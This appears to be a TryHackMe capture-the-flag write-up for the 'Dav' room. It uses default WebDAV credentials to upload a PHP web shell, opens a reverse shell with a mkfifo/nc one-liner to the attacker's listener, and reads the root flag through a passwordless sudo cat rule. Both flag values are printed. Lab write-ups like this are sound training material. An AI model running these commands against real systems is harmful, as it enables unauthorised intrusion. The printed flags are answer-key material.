 # Dav THM writeup
<a href = "https://tryhackme.com/room/bsidesgtdav">https://tryhackme.com/room/bsidesgtdav </a>

<h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.<br>
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page<br>
<img src = "login.png">
After a little <a href= "http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html">google searching</a>, Webdavs default credentials are: **wampp:xampp**<br>
Lets try to login with this Password and Username<br>

Logged in successfully! Its a filesystem:

<img src="fs.png"><br>

I can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```
After uploading my shell.php file, it should appear in the filesystem<br>
This is just a simple Remote shell php file, we can write system commands in here and execute them<br>
And now i Will open a netcat session for a better Shell<br>
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now i have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" showed that i can run the cat command as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
